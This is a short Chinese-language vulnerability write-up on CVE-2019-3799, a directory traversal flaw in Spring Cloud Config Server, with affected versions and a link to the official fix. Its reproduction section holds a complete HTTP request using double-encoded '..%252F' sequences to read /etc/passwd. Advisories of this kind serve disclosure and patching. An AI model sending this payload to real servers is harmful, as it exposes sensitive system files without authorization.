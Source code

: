 # Spring Cloud Config 目录遍历漏洞 CVE-2019-3799

## 漏洞描述

由于 spring-cloud-config-server 模块未对传入路径进行安全限制，攻击者可以利用多个 `..%252f` 进行目录遍历，查看服务器其他路径的敏感文件，造成敏感信息泄露。

## 漏洞影响

```
Spring Cloud Config 2.1.0 to 2.1.1
Spring Cloud Config 2.0.0 to 2.0.3
Spring Cloud Config 1.4.0 to 1.4.5
```

## 漏洞复现

```
GET /foo/default/master/..%252F..%252F..%252F..%252Fetc%252fpasswd HTTP/1.1
Host: your-ip:8888
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:77.0) Gecko/20100101 Firefox/77.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```

## 漏洞修复

Spring 官方最新版本已经对 Spring Cloud Config 目录遍历漏洞进行了修复，下载地址：https://github.com/spring-cloud/spring-cloud-config/releases
